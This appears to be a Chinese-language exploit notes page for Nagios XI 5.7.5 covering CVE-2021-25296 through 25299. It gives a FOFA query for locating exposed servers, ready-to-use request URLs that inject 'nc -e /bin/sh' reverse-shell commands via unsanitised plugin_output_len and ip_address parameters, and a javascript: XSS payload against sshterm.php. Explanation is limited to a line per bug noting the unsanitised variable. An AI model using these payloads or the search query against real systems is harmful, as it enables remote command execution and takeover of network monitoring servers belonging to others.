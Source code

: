 # nagios-xi-5.7.5 多个漏洞（CVE-2021-25296~99）

FOFA:

```
app="Nagios-XI"
```

CVE-2021-25296 PoC：

```
https://10.0.2.15/nagiosxi/config/monitoringwizard.php?update=1&nsp=50c0f98fe9018dc43c81672ad1aeed5fd3f9710f013381519e553f846b5c2a86&nextstep=3&wizard=windowswmi&check_wmic_plus_ver=1.65&plugin_output_len=&ip_address=127.0.0.1&domain=127.0.0.1&username=asdf&password=asdf&auth_file=&plugin_output_len=1024; nc -e /bin/sh 127.0.0.1 4444;&submitButton2=
```

plugin_output_len此处的变量未清除，可以给出command execution。例如：plugin_output_len=1024; nc -e /bin/sh 127.0.0.1 4444;

CVE-2021-25297

代码位置：/usr/local/nagiosxi/html/includes/configwizards/switch/switch.inc.php

POC（适用于管理员/非管理员身份验证）


```
https://10.0.2.15/nagiosxi/config/monitoringwizard.php?update=1&nsp=4e4f78ca5c24c7c526dc86b23092b81c3231a7bf59e1eb67f9918b8daf7b6de9&nextstep=3&wizard=switch&ip_address=127.0.0.1;nc -e /bin/sh 127.0.0.1 4445;&port=161&snmpversion=2c&snmpopts%5Bsnmpcommunity%5D=public&snmpopts%5Bv3_security_level%5D=authPriv&snmpopts%5Bv3_username%5D=&snmpopts%5Bv3_auth_password%5D=&snmpopts%5Bv3_auth_proto%5D=MD5&snmpopts%5Bv3_priv_password%5D=&snmpopts%5Bv3_priv_proto%5D=DES&portnames=number&scaninterfaces=on&bulk_fields%5B%5D=ip_address&bulk_fields%5B%5D=&bulk_fields%5B%5D=&bulk_options=&bulk_fields%5B%5D=&bulk_fields%5B%5D=&warn_speed_in_percent=50&crit_speed_in_percent=80&warn_speed_out_percent=50&crit_speed_out_percent=80&default_port_speed=100&submitButton2=
```

ip_address此处的变量未清除，可以给出command execution。例如：ip_address=1024; nc -e /bin/sh 127.0.0.1 4444;

CVE-2021-25298

代码路径：/usr/local/nagiosxi/html/includes/configwizards/cloud-vm/cloud-vm.inc.php

POC（适用于管理员/非管理员身份验证）

```
https://10.0.2.15/nagiosxi/config/monitoringwizard.php?update=1&nsp=e2401df06a3892ba612df20e1ce2f559d7647c4b5fcba7f64c23c0ea9df1564f&nextstep=4&wizard=digitalocean&no_ssl_verify=1&ip_address=127.0.0.1;nc -e /bin/sh 127.0.0.1 4445;&port=5693&token=123&submitButton2=
```

ip_address此处的变量未清除，可以给出command execution。例如：ip_address=1024; nc -e /bin/sh 127.0.0.1 4444;

CVE-2021-25299

代码位置：/usr/local/nagiosxi/html/admin/sshterm.php

PoC：

```
https://10.0.2.15/nagiosxi/admin/sshterm.php?url=javascript:alert(1)

```
from：https://github.com/fs0c-sh/nagios-xi-5.7.5-bugs